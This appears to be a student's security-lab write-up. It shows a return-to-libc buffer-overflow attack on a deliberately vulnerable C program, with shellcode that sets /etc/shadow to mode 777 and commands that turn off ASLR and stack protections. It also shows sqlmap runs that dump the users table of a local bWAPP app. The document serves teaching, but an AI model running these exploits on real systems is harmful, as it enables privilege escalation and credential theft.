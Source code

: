 # Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)

Step 1: I saved shell code in a file named : shell.c and vulnerable code in a file name code.c . After that, complie both of them 
```
gcc -g shell.c -o shell.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
gcc -g code.c -o code.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

Step 2:  Turn off bash countermeasures of Ubuntu and Turn off address space layout radomization
```
sudo ln -sf /bin/zsh /bin/sh
sudo sysctl -w kernel.randomize_va_space=0
```

Step 3:  I will use system() to execute shell code in order to when i overflow the buffer memory , it will execute the shell code that in saved in code.out after compiling. So i need to save code.out to an evironment variable
``` 
  export MYYVAR="/home/seed/seclabs/lab/task1/shell.out"
```

Step 4: gdb -q code.out

Step 5 : start

Step 6: In this step, i will find the address of system , exit and my environment variable. exit() will consider argc as return address of system()

![image](https://github.com/user-attachments/assets/b5e22c0a-651e-451d-80e7-7d70c77d84a2)

Step 7: Now, i will conduct the attack by using this code: 
```
run $(python -c "print('a' * 20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x39\xdf\xff\xff')")
```
The first 20 bytes will overflow the buffer memory and the ebp, followed by the addresses i extract from gdb . And the result here: 

![image](https://github.com/user-attachments/assets/7ec7b66b-1632-4960-977d-6be74a316e8b)

output screenshot (optional)
Before conducting attack: The etc/shadow have privilege is 640 

![image](https://github.com/user-attachments/assets/8a7caf86-55e2-463b-b785-84186bc7655b)

After conducting attack: The etc/shadow have privilege is 777

![image](https://github.com/user-attachments/assets/758c2b57-05a7-4418-b805-66638791bdce)




**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Step 1: Install SQL map from this link : https://github.com/sqlmapproject/sqlmap.git

Step 2: Install bWAPP by following the tutorial in this link: https://github.com/quang-ute/Security-labs/tree/main/Web-security/Vulnerable%20Web%20App

Step 3: Login and choose the bug:

![image](https://github.com/user-attachments/assets/e708c4d6-b51c-4125-8683-c5fa7692435c)

Step 4: Select movie and copy the url ( note that: delete query action ) : http://localhost:8025/sqli_2.php?movie=1

![image](https://github.com/user-attachments/assets/84ffb76e-4217-4558-9090-b022dcbdebbf)

![image](https://github.com/user-attachments/assets/3b315eed-2f9b-42ab-a9b7-0f0f7011b964)


Step 5: Open Developer Tool and get cookie value in tab Application

![image](https://github.com/user-attachments/assets/190e9138-8366-40a9-b277-d06cf45cb92d)


Step 6: cd to folder sqlmap and run the code : python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"


Step 7: Always type y and the terminal show all the databases

![image](https://github.com/user-attachments/assets/70c022fe-a3b0-4e75-8120-c3426bba3bfe)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:	

Step 1: Run this code to see all the tables of bWAPP database: sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"

![image](https://github.com/user-attachments/assets/0280a6a8-e771-4df8-b6c4-aa1ece23bbae)

Step 2: Run this code see all the column of users table: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --columns --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"

![image](https://github.com/user-attachments/assets/972a52b4-b243-4366-a157-ad269d6a5530)

Step 3: Run this code to see all records in table user : python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"


![image](https://github.com/user-attachments/assets/3d8e083d-96d6-4559-9093-5d929c14d623)



**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
